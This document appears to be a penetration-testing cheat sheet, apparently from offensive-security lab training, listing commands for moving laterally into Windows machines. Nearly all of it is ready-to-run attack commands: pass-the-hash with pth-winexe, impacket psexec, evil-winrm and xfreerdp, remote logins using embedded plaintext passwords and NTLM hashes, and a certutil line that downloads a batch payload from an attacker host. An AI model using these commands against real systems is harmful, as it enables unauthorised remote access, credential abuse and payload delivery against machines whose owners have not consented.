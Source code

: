 # windows

## pass the hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## psexec
```
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "af636dea707fa9cf431562c90e8a4044:af636dea707fa9cf431562c90e8a4044" Administrator@10.11.1.222
```


## evil-winrm

```
evil-winrm -i 10.11.1.221 -u 'john' -p 'easyas123'

evil-winrm -i 192.168.140.10 -u 'offsec' -H '2892d26cdf84d7a70e2eb3b9f05c425e'                              # pass the hash
```


## rdp
```
xfreerdp /u:offsec /p:'lab' /v:192.168.140.10 +clipboard 
xfreerdp /u:Administrator /pth:'' /v:10.11.1.221 +clipboard 

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'

rdesktop -d <domain> -u <username> -p <password> <IP>
```


# linux



pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.140.10 cmd


python3 /usr/share/doc/python3-impacket/examples/psexec.py   corp\jeff_admin@192.168.166.10

certutil -urlcache -split -f "http://192.168.119.166/launcher.bat" launcher.bat



